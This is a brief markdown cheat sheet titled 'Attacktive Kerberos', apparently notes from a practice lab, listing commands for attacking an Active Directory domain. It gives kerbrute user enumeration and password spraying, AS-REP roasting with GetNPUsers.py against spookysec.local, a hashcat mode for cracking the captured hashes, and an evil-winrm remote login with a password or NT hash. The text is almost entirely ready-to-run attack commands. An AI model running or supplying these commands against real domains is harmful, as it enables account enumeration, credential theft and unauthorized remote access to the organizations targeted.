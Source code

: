 # Attacktive Kerberos

## Kerberos User Enumeration

```
./kerbrute_linux_amd64 userenum -d <fqdn> --dc <domain_controller> userlist.txt-o valid_users.txt
```   

## Kerberos Password Spray

```
./kerbrute_linux_amd64 passwordspray -d <fqdn> domain_users.txt PasswordString
```

## AsepRepRoast

```
GetNPUsers.py spookysec.local/ -usersfile valid_users.txt -dc-ip 10.10.51.196
```

Using the list of valid usernames, check if any can be asepreproasted using getnpusers 

Crack with mode 18200 which is for Kerberos 5 AS-REP etype 23.

## Evil-WinRM

```
evil-winrm -i <ip> -u <username> -p <password> -H <NThash>
```